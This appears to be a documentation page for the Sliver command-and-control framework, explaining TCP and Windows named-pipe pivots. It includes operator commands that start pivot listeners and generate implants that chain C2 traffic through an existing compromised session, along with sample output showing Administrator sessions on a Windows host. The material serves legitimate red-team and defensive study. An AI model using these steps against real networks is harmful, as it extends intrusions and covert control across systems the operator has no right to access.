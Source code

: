 ⚠️ __IMPORTANT:__ Pivots in Sliver are used for specifically pivoting C2 traffic, not to be confused with port forwarding `portfwd`, which is used for tunneling generic tcp connections into a target environment. 

⚠️ __IMPORTANT:__ Pivots can only be used in "session mode" (we may add beacon support later)

Pivots allow you to create "chains" of implant connections, for example if you're trying to deploy a pivot into a highly restricted subnet that cannot route traffic directly to the internet you can instead create an implant that egresses all traffic via another implant in a less restricted subnet. Sliver v1.5 and later pivots can be arbitrarily nested, for example a pivot A can connect thru pivot B to a third egress implant.

In Sliver you use an existing session to create a "pivot listener" and then generate new pivots that can connect back to that listener, just as you would with other C2 protocols/endpoints.

Pivots perform an [authenticated peer-to-peer cryptographic key exchange](https://github.com/BishopFox/sliver/wiki/Transport-Encryption#implant-to-implant-key-exchange-pivots) regardless of the underlying pivot protocol, therefore pivots can only communicate with other implants generated by the same server. This behavior cannot be disabled.

## TCP Pivots

TCP pivots are implemented in pure Go and are supported on all platforms. 

```
[server] sliver (PRIOR_MANTEL) > pivots tcp

[*] Started tcp pivot listener :9898 with id 1

[server] sliver (PRIOR_MANTEL) > pivots

 ID   Protocol   Bind Address   Number Of Pivots
==== ========== ============== ==================
  1   TCP        :9898                         0
```

We can now use `generate --tcp-pivot 192.168.1.1:9898` to generate an implant that will connect to the pivot listener, where `192.168.1.1` is the local IP of the server on which we started the listener.

## Named Pipe Pivots (SMB)

Named pipe pivots are only supported on Windows. Select a session to start a named pipe listener, and then use the `--bind` flag to specify a pipe name. Pipes are automatically started on the local machine so you only need to specify a named, remote clients are always allowed:

```
[*] Session a2615359 WARM_DRIVEWAY - 192.168.1.178:59290 (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 10:09:20 CST

[server] sliver > use a2615359-b0a4-4463-820b-f4dbe6fb2c30

[*] Active session WARM_DRIVEWAY (a2615359-b0a4-4463-820b-f4dbe6fb2c30)

[server] sliver (WARM_DRIVEWAY) > pivots named-pipe --bind foobar

[*] Started named pipe pivot listener \\.\pipe\foobar with id 1
```

Next we generate a named pipe implant using `generate --named-pipe 192.168.1.1/pipe/foobar` note here we may need to specify the IP address of the listener: `192.168.1.1`. The syntax is `<host>/pipe/<pipe name>`, note that `.` is equivalent to `127.0.0.1`. This is just the standard syntax for Windows named pipes.

```
[*] Session 13f9ee6b ROUND_ATELIER - 192.168.1.178:59290->WARM_DRIVEWAY-> (WIN-1TT1Q345B37) - windows/amd64 - Mon, 07 Feb 2022 10:15:11 CST

[server] sliver (WARM_DRIVEWAY) > sessions

 ID         Name            Transport   Remote Address                         Hostname          Username                        Operating System   Last Check-In                   Health
========== =============== =========== ====================================== ================= =============================== ================== =============================== =========
 13f9ee6b   ROUND_ATELIER   pivot       192.168.1.178:59290->WARM_DRIVEWAY->   WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      Mon, 07 Feb 2022 10:15:11 CST   [ALIVE]
 a2615359   WARM_DRIVEWAY   mtls        192.168.1.178:59290                    WIN-1TT1Q345B37   WIN-1TT1Q345B37\Administrator   windows/amd64      Mon, 07 Feb 2022 10:15:11 CST   [ALIVE]
```


